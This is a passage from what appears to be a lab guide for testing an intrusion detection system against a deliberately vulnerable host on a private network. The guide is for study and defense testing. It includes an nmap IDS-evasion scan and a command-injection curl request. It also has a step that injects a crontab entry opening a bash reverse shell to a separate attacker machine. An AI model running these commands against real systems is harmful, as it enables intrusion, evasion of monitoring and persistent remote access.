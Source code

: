 ### Step 4.3: Attack Success Rate Documentation
Create a summary table:

| Attack Type | Attempted | Successful | IDS Detected | Detection Rate |
|-------------|-----------|------------|--------------|----------------|
| Network Scan | ✅ | ✅ | ✅ | 100% |
| Command Injection | ✅ | ✅ | ? | ?% |
| XSS | ✅ | ✅ | ? | ?% |
| DoS - HTTP Flood | ✅ | ? | ? | ?% |
| DoS - Connection | ✅ | ? | ? | ?% |

---

## 🎭 Phase 5: Advanced Techniques (Optional)

### Step 5.1: IDS Evasion Testing
```bash
# Test various evasion techniques
nmap -sS -T1 -f -D RND:5 192.168.56.10  # Slow + fragmented + decoys
curl --user-agent "Mozilla/5.0..." "http://192.168.56.10/vulnerable.php?cmd=whoami"
```

### Step 5.2: Persistence Testing
```bash
# Attempt to establish persistence (will be detected)
curl -s "http://192.168.56.10/vulnerable.php?cmd=echo '* * * * * /bin/bash -i >& /dev/tcp/192.168.56.12/4444 0>&1' | crontab -"
```

---

## 📋 Final Documentation Checklist

### Required Screenshots:
- [ ] Network reconnaissance results
- [ ] Successful command injection execution
- [ ] XSS payload in browser/curl response  
- [ ] IDS alert log showing multiple attack detections
- [ ] DoS attack impact on system resources
- [ ] Service recovery after DoS testing
- [ ] Attack summary statistics

### Required Analysis:
- [ ] IDS detection effectiveness per attack type
- [ ] False positive/negative analysis
- [ ] Attack timeline and methodology
- [ ] System impact assessment
- [ ] Recommendations for security improvements
